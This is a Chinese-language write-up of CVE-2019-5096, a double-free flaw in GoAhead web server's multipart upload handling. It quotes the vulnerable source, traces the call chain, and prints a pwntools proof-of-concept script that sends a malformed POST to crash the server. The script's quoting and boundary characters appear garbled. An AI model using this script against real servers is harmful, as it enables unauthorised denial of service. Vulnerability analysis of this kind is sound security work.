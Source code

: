 ```yaml
---
title: （CVE-2019-5096） GoAhead远程代码溢出漏洞
id: zhfly2958
---
```


# （CVE-2019-5096） GoAhead 远程代码溢出漏洞

## 一、漏洞简介

GoAhead Web服务器最近被曝光在版本v5.0.1，v.4.1.1和v3.6.5中存在一个可利用的代码执行漏洞，漏洞存在http请求的multi-part/form-data字段处理中，若是发送畸形的HTTP请求，可导致GoAhead Web服务器在处理此请求期间触发double-free漏洞。 该畸形请求可以未经身份验证的GET或POST请求形式发送，并且请求的服务器上不需要存在web页面。

## 二、漏洞影响

v5.0.1，v.4.1.1和v3.6.5

## 三、复现过程

### 漏洞分析

漏洞曝光者给出了触发漏洞的源码：

```
/ src/upload.c /
66 static void freeUploadFile(WebsUpload *up)
67 {
68 if (up) {
69 if (up->filename) { // BUG: First UAF here
70 unlink(up->filename); // BUG: UAF/unlink - probably not a good idea
71 wfree(up->filename); // BUG: Double free here
72 }
73
74 wfree(up->clientFilename);
75 wfree(up->contentType);
76 wfree(up);
77 }
78 } 
```

经过笔者的分析发现，freeUploadFile（）函数会在/src/upload.c的websFreeUpload（）函数中调用，而websFreeUpload（）函数会在/src/http.c中调用，/src/http.c中termWebs（）函数会调用websFreeUpload（）函数，/src/http.c中reuseConn（）函数会调用termWebs（）函数，从中可以看出漏洞触发函数freeUploadFile（）的调用过程。

在函数freeUploadFile（）的调用过程中，查看源码可发现有两行如下代码：

```
/ src/upload.c /
255 freeUploadFile(wp->currentFile);
256 file = wp->currentFile = walloc(sizeof(WebsUpload)); 
```

在此处变量 wp->currentFile会被free一次，但是被free的变量wp->currentFile在代码：

```
/ src/upload.c /
371 hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
372 defineUploadVars(wp); 
```

在此处代码中把变量wp->currentFile加入了一个数组中，该数组中的变量在接下来的代码中会被free一次，free代码如下：

```
/ src/upload.c /
86 for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
87 up = s->content.value.symbol;
88 freeUploadFile(up); 
```

变量wp->currentFile再次被free之后，导致了double-free漏洞触发，是fastbin double free，利用方法和思路已经很成熟。

### poc

> https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit

```
from pwn import *
import time
import sys
r = remote(sys.argv[1],8080)
rn = b"\r\n"

payload=b’’

payload +=b"–siiit"+rn

payload +=b"Content-Disposition: form-data; name=“shit1”; filename=“shit.file”;"+rn

payload+= rn

payload+=b"HelloWorld!"+rn

payload +=b"–siiit"+rn

payload +=b"Content-Disposition: form-data;  name=“shit2”; filename=“shit2.file”"+rn

payload+= rn

payload+=b"FuckkWorld!"+rn

payload +=b"–siiit"+rn

data = b"POST / HTTP/1.1\r\nHost:HelloWorld:8080\r\n"

data +=b"content-type:multipart/form-data"+rn

data +=b"content-type:boundary=siiit"+rn

data +=b"content-length:"+str(len(payload)).encode()+rn

data +=b"cookie:"+b’a’*0x1+rn

data +=rn

data +=payload `r.send(data)

sleep(20)

try:

dat=r.recvn(1024)

print(dat)

r.close()

except:

r.close()` 
```